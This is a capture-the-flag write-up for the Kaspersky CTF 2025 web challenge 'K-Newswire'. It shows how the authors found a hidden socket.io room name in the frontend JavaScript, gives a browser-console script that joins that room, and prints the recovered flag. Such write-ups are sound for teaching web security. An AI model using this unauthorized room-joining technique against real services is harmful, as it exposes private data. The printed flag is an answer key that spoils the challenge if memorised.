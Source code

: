 

# WhiteDukesDZ - Kaspersky CTF 2025 Writeup: K-Newswire

![WhiteDukesDZ Logo](challenge/web-k-newswire.png)

---

## Challenge Summary

This challenge featured a straightforward web application simulating a news channel. The objective was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Application Analysis

Upon accessing the web application, we were greeted with a main page designed to resemble a news channel:

![WhiteDukesDZ Logo](demonstration/web-k-newswire-front.png)

Inspecting the browser's DevTools revealed a connection to a socket origin:

![WhiteDukesDZ Logo](demonstration/web-k-newswire-sockets.png)

This socket provided us with a session ID, automatically joined us to the public room, and began streaming news updates. The key detail was the following message for joining the public room:

```txt
["join",{"room":"public"}]
```

### Security Observations

Further inspection in DevTools uncovered a JavaScript file:

![WhiteDukesDZ Logo](demonstration/web-k-newswire-js.png)

Careful analysis of this JS file revealed that the frontend is a Vite React app (as indicated by variables like `VITE_SOCKET_URL`). Most importantly, we identified the following snippet:

```js
const kh = Object.freeze({ public: "public", secret_announcements: "secret_announcements" });
```

And subsequently:

```js
{ t(!0), p.emit("join", { room: kh.public }) }
```

This explains how users are joined to the `public` room by default, and also hints at the existence of another room: `secret_announcements`.

---

## Solution

Based on our findings, we crafted the following exploit JavaScript to join the hidden `secret_announcements` room. This code can be injected directly into the browser's DevTools console:

```js
let script = document.createElement('script');
script.src = 'https://cdn.socket.io/4.7.5/socket.io.min.js';
script.onload = function() {
  const socket = io('/', { path: '/socket.io', transports: ['websocket'] });
  socket.emit('join', { room: 'secret_announcements' });
  socket.on('news', (msg) => console.log(msg));
  socket.on('news_backlog', (msg) => console.log(msg));
};
document.head.appendChild(script);
```

If successful, this script will join the `secret_announcements` room and display the flag as an announcement message:

![WhiteDukesDZ Logo](demonstration/web-k-newswire-flag.png)

Obtained flag:

```txt
kaspersky{h07_n3ws_fr0m_unl0ck3d_s3cre7_ch4nn3ls}
```
